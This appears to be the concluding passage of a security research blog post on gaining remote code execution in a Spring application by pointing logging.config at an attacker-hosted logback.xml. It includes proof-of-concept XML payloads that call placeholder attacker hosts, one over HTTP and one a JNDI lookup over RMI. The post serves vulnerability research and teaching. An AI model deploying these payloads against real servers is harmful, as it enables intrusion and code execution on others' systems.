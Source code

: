 
Following the flow of the `location` argument which is controlled by the attacker, we can reach `configureByResourceUrl` at [9] with the location converted to a `URL`. Finally, at [10] we can see that the (in)famous `JoranConfigurator` initialized and then finally a call to `doConfigure`.

Those that have attended my class probably know where this is going. We can use a `logback.xml` URL to reconfigure the log-back library. The final proof of concept `application.xml` looks like this:

```xml
<!DOCTYPE properties SYSTEM "http://java.sun.com/dtd/properties.dtd">
<properties>
    <entry key="logging.config">http://[attacker]:[port]/logback.xml</entry>
</properties>
```

and the corresponding log-back file which may look familiar to some:

```xml
<configuration>
  <insertFromJNDI env-entry-name="rmi://[attacker]:1099/Object" as="appName" />
</configuration>
```

The stars were aligned here, we found a way to restart the server remotely using one of the exposed REST API's and of course `ELProcessor` was included in the class path. The result:

![](/assets/images/remote-code-execution-with-spring-properties/rce.png "Getting RCE via JNDI injection (ab)using Spring properties")

## Concluding thoughts

There are likely many other ways to gain remote code execution here such as defining log file paths and other vectors. I didn't have a lot of time to look at this and I just went with the first approach that worked. I encourage other researchers to dive into the Spring framework and find other Listeners using environment properties and find other vectors for exploitation! There are other vectors for code injection using log-back, such as JDBC (taught in class) and (ab)using the un-marshaller directly. But that is an exercise for the reading researcher.

## References

- [https://juejin.cn/post/6972564484720328718](https://juejin.cn/post/6972564484720328718)
